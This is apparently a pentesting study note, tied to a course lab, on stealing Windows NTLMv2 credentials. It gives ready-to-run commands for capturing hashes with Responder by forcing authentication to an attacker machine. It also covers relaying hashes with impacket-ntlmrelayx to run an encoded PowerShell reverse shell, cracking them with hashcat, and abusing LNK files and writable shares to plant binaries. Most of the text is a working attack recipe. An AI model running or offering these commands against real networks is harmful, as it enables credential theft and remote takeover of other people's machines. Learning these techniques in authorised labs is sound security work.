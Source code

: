 # NTLMv2 - Credential Theft
If we end up on a machine, as a NON-privileged user, we can force authentication back to our KALI machine, and capture the NTLMv2 hash with responder.
We crack this hash and then use it as normal.
If we can not crack it, we can also relay this hash to use on 3rd computer, if the hash belongs to an admin on the 3rd machine
Use impacket-ntlmrelayx  to relay hash and  authenticate it  to a 3rd machine:
	- Relyaing requires account owner of hash to be local admin on the 3rd machine
	- Relay examples on PEN-200 16.3.4 Q1, Q2

Listening with responder in analyze mode: 
```bash
sudo responder -I tun0 -A     #  Start Responder to listen and ANALYZE
dir \\kaliIP\fakeDIR          # Force authentication from WIN to KALI
```
We should now see a NTLMv2 hash in responder.
If we are unable to crack it, we can attempt to relay it instead.

Relay example:
- start ncat listener : `rlwrap ncat -nvlp 4444`
- create powershell base64 encoded payload, with IP and port, for KALI ncat listener
- impacket-ntlmrelayx is pointing to the IP of the 3rd computer we are relaying the hash to authenticate to
- If everything works we'll catch a RevShell from the 3rd computer as local admin/system
`impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.205.212 -c "powershell -e JABApAA=="`

---
## Cracking NTLMv2 Hashes
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force

---
## Forced Authentication & .lnk File Abuse
Forced Authentication: 
	- Coerce Authentication via abusing legitimate file functions  
LNK icon smuggling:   
	- Coerce authenicaion via ICON paths
	- Execute malicious code via legitimate functions
	- WE can replace lnk files to point to a remote file
	- we can also make lnk files use binary, to exeucte some command we want
	- If you find a share we have write access to, upload our evil binary
	- Mount share  smbclient \\\\IP\ShareName  

---
